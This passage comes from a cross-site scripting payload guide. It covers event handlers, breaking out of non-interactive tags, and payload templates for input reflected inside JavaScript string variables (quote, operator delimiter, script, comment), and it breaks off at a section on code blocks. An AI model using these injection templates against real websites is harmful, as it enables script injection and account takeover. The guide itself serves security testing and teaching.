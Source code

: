 ```
onmouseover
onmouseup
```

The rest of the components can be tested using the methodologies discussed earlier.

###### Intractable
When the input is getting reflected within a tag which cannot be interacted with, breaking out of the tag itself is required to execute the payload. The payload scheme for such a case is:

`{quote}>{any payload scheme from html context section}`

## JavaScript Context
#### Inside String Variable
The most common type of JavaScript context reflection is reflection within a string variable. It is common because developers usually assign user input to a variable instead of using them directly.

`var name = '$input';`

##### Payload Scheme #1

`{quote}{delimiter}{javascript}{delimiter}{quote}`

Where the delimiter is usually a JavaScipt operator such as `^`.
For instance, if the user input lands in a single quoted string variable, possible payloads would be

```
'^{javascript}^'
'*{javascript}*'
'+{javascript}+'
'/{javascript}/'
'%{javascript}%'
'|{javascript}|'
'<{javascript}<'
'>{javascript}>'
``` 

##### Payload Scheme #2

`{quote}{delimiter}{javascript}//`

It is similar to the previous payload scheme except that it uses a single line comment to comment out the rest of the code in the line to keep the syntax valid.
Some payloads that can be crafted using this payload scheme are:
```
'<{javascript}//'
'|{javascript}//'
'^{javascript}//'
```

#### Within Code Blocks

Input often gets reflected into code blocks.
For instance, a webpage does something if the user has paid subscription and is more than 18 years old.
The JavaScript code which has the reflected input looks like this:
